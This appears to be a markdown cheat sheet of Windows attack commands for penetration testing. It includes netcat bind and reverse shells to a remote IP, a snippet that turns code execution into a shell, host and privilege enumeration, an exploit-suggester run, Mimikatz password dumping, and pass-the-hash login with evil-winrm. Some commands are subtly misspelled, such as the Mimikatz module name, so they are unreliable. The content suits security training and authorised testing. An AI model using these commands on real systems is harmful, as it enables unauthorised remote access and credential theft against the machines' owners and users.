 # Windows Exploitation

## === Remote Desktop ===

```bash
# xfreerdp
xfreerdp /u:username /p:password /v:10.10.10.1:3389 /drive:/z3r0 +clipboard 
```

## === Upgrading Shells ===

```bash
# rce to shell
system("start cmd.exe /k $cmd")
```

## === Shells ===

```bash
# bind shell
nc.exe -Lp 1337 -vv -e cmd.exe
# reverse shell
nc.exe 192.168.1.1 1337 -e cmd.exe
```

## === Enumeration Commands ===

### Basic Commands
```bash
hostname
# user info
echo %username%
getuid
whoami
whoami /priv
# all user info
net users
net users Administrator
# firewall
netsh firewall show state
netsh firewall show config
# scheduled tasks
schtasks /query /fo LIST /v 
# services
net start
wmic service list brief
tasklist /SVC
```

### Versions
```bash
# patches, architecture, os
systeminfo
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
# os version
type c:/windows/system32/eula.txt
```

### Network
```bash
# basic info
ipconfig /all & route print & arp -a 
# connections
netstat -aton
```

### Searching
(common world writable folders: ...)
```bash
# find
dir /S /B file
# grep
findstr /spin /c:"pattern" file
findstr /S /I /M /C:"pattern" *.*
```

## === Privelege Escalation ===

### Exploit Suggester
```bash
systeminfo
# take output and put into systeminfo.txt
python windows-expoit-suggester.py --database 2020-09-27-mssb.xls --systeminfo systeminfo.txt
```

### Mimikatz
```bash
./mimikatz.exe 
	privilege::debug
	sukurlsa::logonpasswords
evil-winrm -i 10.10.10.1 -u Administrator -H $NTLM
```

## === Links to Resources ===
- [Windows Elevation of Privileges ToC by WindowsOp](https://guif.re/windowseop)
